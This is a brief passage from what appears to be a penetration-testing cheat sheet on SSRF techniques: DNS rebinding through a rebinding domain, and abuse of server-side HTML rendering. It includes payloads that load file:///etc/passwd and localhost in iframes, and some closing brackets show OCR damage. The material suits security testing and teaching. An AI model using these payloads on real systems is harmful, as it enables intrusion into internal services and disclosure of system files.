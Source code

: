 ## DNS rebinding
If the mechanisms in vulnerable application for checking and establishing a connection are independent and there is no caching of the DNS resolution response, you can bypass this by manipulating the DNS resolution response.
For example, if two requests go one after the other within 5 seconds, DNS resolution make-1-1-1-1-rebind-127-0-0-1-rr.1u.ms will return the address 1.1.1.1 by the first request, and the second - 127.0.0.1.
```
$ dig A make-1-1-1-1-rebind-127-0-0-1-rr.1u.ms
make-1-1-1-1-rebind-127-0-0-1-rr.1u.ms. 0 IN A 1.1.1.1
​
$ dig A make-1-1-1-1-rebind-127-0-0-1-rr.1u.ms
make-1-1-1-1-rebind-127-0-0-1-rr.1u.ms. 0 IN A 127.0.0.1
```
​​
​​
## Server-side processing of arbitrary HTML and JS

Server-side processing of arbitrary HTML and JS data from a user can often be found when generating various documents, for example, to PDFs. If this functionality is vulnerable to HTML injection and/or XSS, you can use this to access internal resources:
```
<iframe src="file:///etc/passwd" width="400" height="400"-
<img src onerror="document.write('<iframe src=//127.0.0.1-</iframe-')"-
```

Use HTTPLeaks to determine if any of the allowed HTML tags could be used to abuse the processing.

​